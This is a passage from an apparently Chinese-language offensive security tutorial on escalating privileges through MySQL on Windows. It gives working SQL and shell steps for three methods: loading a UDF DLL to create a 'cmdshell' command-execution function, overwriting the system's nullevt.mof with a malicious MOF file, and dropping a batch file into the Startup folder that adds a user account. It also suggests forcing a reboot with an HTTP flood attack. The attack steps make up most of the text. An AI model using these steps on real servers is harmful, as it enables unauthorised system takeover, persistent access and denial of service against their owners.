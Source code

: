 ```bash
# 利用自定义执行函数导出dll文件进行命令执行
select version();
select user();   # 获取数据库用户
select @@basedir;  # 安装目录
show variables like '%plugins%';  # 寻找mysql安装路径 

# 手工创建或利用NTFS流创建 plugin目录(如下) 
select 'x' into dumpfile '......mysql/lib/plugin::INDEX_ALLOCATION';

# Note：
1.mysql<5.1 一般导出dll到目录c:/windows/system32
2.mysql=>5.1 导出安装目录的/lib/plugin/   # 默认不存在，需要创建

# 1.使用脚本(最下面资源MySQL.php)进行自定义函数导出为dll就行(可能会失败)
# 2.创建一个自定义函数与dll文件对应
create function cmdshell returns string soname 'moonudf.dll'  # 创建叫cmdshell的函数
# 3.执行命令
select cmdshell('命令')	# 就可以执行命令了
# 4.添加账户密码，后续操作

```





### 2.MOF加载提权

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119190452993.png)

系统目录中的mof/目录下有mof文件，目录下面的文件会被系统调用执行。

```bash
# 将mof上传至任意可读可写目录下
# 导出自定义mof文件到系统目录加载
c:/windows/system32/wbem/mof/

# 然后使用sql语句将系统当中默认的nullevt.mof给替换为我们自定义恶意的mof文件。进而让系统执行我们这个恶意的mof文件
# 替换的sql语句：select load_file('D:\WWW\xx.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';

```



### 3.启动项重启提权

```bash
# 启动项文件夹(开机或重启之后会自动加载的程序)
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp


#导出自定义bat或vbs到启动目录配合重启执行
将创建好的adduser.vbs或.bat文件(内容如下)进行服务器启动项写入，配合重启执行！
@echo off
net user xiaodi 123!@jqazQ /add
# 配合其他利用命令

# 怎么让服务器重启呢？
可以CC攻击流量过高, 对方服务器打不开时候，然后就会自动重启了

```

